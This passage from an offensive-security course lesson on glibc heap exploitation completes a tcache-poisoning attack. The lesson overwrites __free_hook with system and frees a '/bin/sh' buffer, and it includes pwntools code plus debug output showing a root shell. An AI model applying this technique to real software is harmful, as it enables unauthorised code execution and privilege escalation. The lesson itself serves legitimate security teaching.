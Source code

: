Great! Tcache is poisoned. Now we need to allocate those pointers back, including the address of `__free_hook`. The `new` function will not allocate a new `u` struct because it technically still exists, since the pointer was never nulled out. Consequently, the `0x50` bin allocation order is `group`, then `name`. We can set `name` during the allocation to clobber `__free_hook` to point at `system`.

We also need to be mindful of what happens when we trigger `free` after clobbering the hook. Whatever address is passed to `free` will be passed to the address in `free_hook`, which is now system. Therefore we want our very next call to `free` to be a pointer to `/bin/sh`. What is the next thing passed to `free`? We see in `delete` that it is the `bio` pointer. We can simply make the new `bio` equal to `/bin/sh`, and now the `bio` pointer is a `char[] = "/bin/sh"`! All we need to do after the allocations is to send a `delete` command to trigger the shell:

```python
new(p64(system), 'BBBBBBBB', 10, 10, b"/bin/sh\x00")
p.sendline(b'4')
```

```
[DEBUG] Received 0xd bytes:
    b'Enter a bio:\n'
[DEBUG] Sent 0x9 bytes:
    00000000  2f 62 69 6e  2f 73 68 00  0a                        │/bin│/sh·│·│
    00000009
[DEBUG] Received 0x55 bytes:
    b'Please enter an option:\n'
    b' 1. New user\n'
    b' 2. Edit user\n'
    b' 3. Print user\n'
    b' 4. Delete user\n'
    b' > '
[DEBUG] Sent 0x2 bytes:
    b'4\n'
[*] Switching to interactive mode
 [DEBUG] Received 0x1d bytes:
    b'Detaching from process 85650\n'
Detaching from process 85650
$  whoami
[DEBUG] Sent 0x7 bytes:
    b'whoami\n'
[DEBUG] Received 0x5 bytes:
    b'root\n'
root
```

> Note that we don't want to use our `delete` Python function here because it waits for `b'> '` as a part of its routine. Since we pop a shell before the target's `delete` function has a chance to log that character, our attacking `delete` function will hang and not give us the interactive shell.

## Recitation

[](https://github.com/comed-ian/offsec-fall-2024/blob/lesson8/8.%20Attacking%20the%20Heap%20(glibc%20%3C2.32).md#recitation)

